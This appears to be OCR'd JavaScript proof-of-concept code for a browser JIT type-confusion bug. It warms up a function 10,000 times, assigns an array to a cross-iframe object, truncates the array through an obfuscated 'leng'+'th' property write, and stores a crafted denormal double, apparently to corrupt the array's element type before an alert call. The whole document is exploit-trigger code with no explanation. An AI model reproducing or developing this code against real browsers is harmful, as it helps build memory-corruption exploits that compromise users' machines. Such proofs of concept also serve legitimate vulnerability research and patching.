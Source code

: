 
function opt(x_obj, arr) {
    arr[0] = 1.1;
    
    x_obj.a = arr;  
    arr['leng' + 'th'] = 0;  

    arr[0] = 2.3023e-320;
}

let x_obj = document.body.appendChild(document.createElement('iframe')).contentWindow.eval('({})');
let arr = [1.1, 1.1];

for (let i = 0; i < 10000; i++) {
    opt(x_obj, arr.concat());
}

opt(x_obj, arr);

arr[1] = {};  
alert(arr);


